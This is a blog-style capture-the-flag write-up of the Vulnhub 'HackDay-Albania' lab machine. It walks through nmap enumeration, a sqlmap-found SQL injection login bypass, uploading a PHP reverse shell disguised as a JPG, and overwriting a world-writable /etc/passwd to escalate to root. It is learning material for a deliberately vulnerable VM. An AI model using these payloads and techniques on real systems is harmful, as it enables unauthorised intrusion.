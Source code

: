 ```yaml
---
layout: single
title: "Vulnhub Write-up #2 : HackDay-Albania"
excerpt: "Writeup for 'HackDay-Albania' machine from vulnhub."
date: 2020-05-06
header:
  teaser: /assets/images/Stripe-Vulnhub/vulnhub.png
  teaser_home_page: true
categories:
  - vulnhub
  - infosec
tags:
  - sqli  
  - auth-bypass
  - write-perm
---
```



In this writeup we are looking at HackDay-Albania from Vulnhub.
I spent time to complete this VM as it took my atention as the first Albanian VM I have ever seen since I am an albanian too and would be interested to take a look. This machine has quite an interesting walkthrough with beginner to intermediate level steps.
Starts with a vulnerable bank from where we can drop a reverse shell and then write to /etc/passwd to escalate to root. Lets dig in:

## Enumeration 
As always starting with a nmap scan after setting up the image to virtualbox and powering it on we get those results :
```
root@kali:~# nmap -sC -A 192.168.1.6
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-06 20:00 CEST
Nmap scan report for 192.168.1.6
Host is up (0.00025s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 39:76:a2:f0:82:5f:1f:75:0d:e4:c4:c5:a7:48:b1:58 (RSA)
|   256 21:fe:63:45:2c:cb:a1:f1:b6:ba:36:dd:ed:d3:d9:48 (ECDSA)
|_  256 25:94:fb:00:c2:c0:ef:30:4a:02:d2:39:d5:57:17:a8 (ED25519)
8008/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 26 disallowed entries (15 shown)
| /rkfpuzrahngvat/ /slgqvasbiohwbu/ /tmhrwbtcjpixcv/ 
| /vojtydvelrkzex/ /wpkuzewfmslafy/ /xqlvafxgntmbgz/ /yrmwbgyhouncha/ 
| /zsnxchzipvodib/ /atoydiajqwpejc/ /bupzejbkrxqfkd/ /cvqafkclsyrgle/ 
|_/unisxcudkqjydw/ /dwrbgldmtzshmf/ /exschmenuating/ /fytdinfovbujoh/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: HackDay Albania 2016
MAC Address: 08:00:27:DC:2E:3D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.25 ms 192.168.1.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.65 seconds
```
Port 22 (SSH) and Port 8008 (HTTP) opened...
The HTTP Server comes up with a bunch of random word directories which seem weird to me.

I firstly tried to navigate to the HTTP server and look for something around : 

![message](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/1.png)

This is the image presented in the root page alongside with a message written in Albania language which means :

`If it's me, I know where to go ;)`

Interesting...

After failing to grab any other possible information from the http server I randomly picked one and tried to navigate to it and ended up with the following result :
![wrong](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/2.png)

Another image with a message in albanian which means : 

`is this the right directory? or am I loosing my time?`

I found this helpful because while randomly navigating to other directories this could help us identify the useful directory...
After some attempts `/unisxcudkqjydw/` returns with the following message :

``IS there any /vulnbank/ in there ??? ``

## Initial Foothold

I tried to navigate to ``/unisxcudkqjydw/vulnbank`` and it seemed like it was a valid directory with content on it :

![dir](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/3.png)

Accessing ``client/`` shows the following site :

![client](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/4.png)

A login page which is probably vulnerable to sql injection , however the usual manual injections didnt work so I decided to fire sqlmap against it :

```
root@kali:~# sqlmap -u http://192.168.1.6:8008/unisxcudkqjydw/vulnbank/client/login.php --forms
```

![sqlmap](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/5.png)

``ctSS' RLIKE SLEEP(5)-- sohc`` and empty username seems to be legit for sqlmap... so why not for us? 
I went to try it to the login page and was able to succesfully bypass the login page :

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/6.png)

A upload option is presented to us in the main page which means : MONEY! 
I tried to upload a random thing and got the following warning : 

``After we got hacked we our allowing only image files to upload such as jpg , jpeg , bmp etc...``

My first thought was that we could make a reverse shell written in php and inject magic bytes in the beggining of the file so the server would identify it as a JPG file so I went ahead to try that :
```
root@kali:~# echo -e '\xff\xd8\xff\xdb' > fake.php.jpg
```

After injecting the magic byte to the ``fake.php.jpg`` we can go ahead and edit it with `vi` or any preferred text editor and paste the php reverse shell code.

Afterwards I tried to upload , however no luck with this method and no reverse shell was poped which made me confused...
I made a second attempt but this time I simply copied the php reverse shell code in a .jpg file format and tried to upload it :
```
root@kali:~# cp /usr/share/webshells/php/php-reverse-shell.php shelltest.jpg
```

After clicking `View Ticket` in the main page I finally got a response :

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/8.png)

Finally a reverse shell as `www-data` 

## Escalating to User
I quickly located the bank files in machine and went through config.php to see for a possible password reuse somewhere :

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/9.png)

Woaah!! Nice password over there , but not the correct one to `su` as ``taviso`` so I used the credentials to login to the mysql database and maybe find some other passwords :

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/11.png)

2 more useless passwords appeared which again didnt work , so I began to enumerate more...

I was trying to find writable permissions when I found something interesting :
```
www-data@hackday:/$ ls -la /etc/passwd
ls -la /etc/passwd
-rw-r--rw- 1 root root 1623 Oct 22  2016 /etc/passwd
```

I have write access over /etc/passwd and the first guess was to add a new password for user : ``taviso`` so I copied the contents of file in my machine , generated a new password for taviso : ``albania`` and re-uploaded the file to the machine :

```
root@kali:~# openssl passwd -1
Password: 
Verifying - Password: 
$1$JMlW1qnd$3BOKOiF3ePP4aJ.RuAf4e0
```
```
www-data@hackday:/tmp$ cp passwd /etc/passwd
cp passwd /etc/passwd
www-data@hackday:/tmp$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
taviso:$1$JMlW1qnd$3BOKOiF3ePP4aJ.RuAf4e0:1000:1000:Taviso,,,:/home/taviso:/bin/bash
www-data@hackday:/tmp$ 
```

Now I can simply try to su as taviso using the password we set :
![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/12.png)

And ... we are in as Taviso!


## Root Privesc
The first basic enumeration for the next privesc ``sudo -l`` gave me enough to do the next step : 

```
taviso@hackday:/tmp$ sudo -l
sudo -l
[sudo] password for taviso: albania

Matching Defaults entries for taviso on hackday:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User taviso may run the following commands on hackday:
    (ALL : ALL) ALL
taviso@hackday:/tmp$ 
```

Seems like user ``Taviso`` has permission to run any command as sudo and seems like we can simply use ``sudo su`` to grab a root shell:

![site](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/HackDay-Vulnhub/13.png)

I really liked this machine and I was so excited to try out an Albanian Machine. 



